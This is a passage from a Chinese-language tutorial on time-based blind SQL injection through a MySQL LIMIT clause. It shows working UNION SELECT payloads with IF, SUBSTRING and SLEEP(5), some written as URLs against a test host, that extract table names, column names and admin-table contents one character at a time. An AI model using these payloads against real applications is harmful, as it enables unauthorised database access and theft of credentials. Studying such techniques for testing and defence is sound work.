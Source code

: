 

数据库语句-读取当前库的第一张表名的第二个字: select * from tdb_goods limit 0,1 union select 1,if(substring((SELECT table_name FROM information_schema.tables where table_schema=database() LIMIT 0,1),2,1)='d',sleep(5),1),3,4,5,6,7

## 0x06 猜字段

table_schema = "xx" 要爆的数据库名

table_name = "xx" 要爆的表名

limit 0 表示要爆的位置

例如:

表tdb_admin的字段为 id,usernam,password

limit 0 = id

limit 1 = username

limit 2 = password

```plain
// 演示数据
mysql> SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1;
+-------------+
| column_name |
+-------------+
| id          |
+-------------+
1 row in set (0.00 sec)
```

web语句: http://www.test.com/limit_sql.php?limit=1 union select 1,if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),1,1)='i',sleep(5),1),3,4,5,6,7



猜test库 tdb_admin表的第一个字段名第一个字: select * from tdb_goods limit 0,1 union select 1,if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),1,1)='i',sleep(5),1),3,4,5,6,7



猜test库 tdb_admin表的第一个字段名第二个字: select * from tdb_goods limit 0,1 union select 1,if(substring((SELECT column_name FROM information_schema.columns where table_schema='test' and table_name='tdb_admin' limit 0,1),2,1)='d',sleep(5),1),3,4,5,6,7

## 0x07 猜内容

注意: limit 0 表示要显示那一条数据

limit 0 表示第一条

limit 1 表示第二条
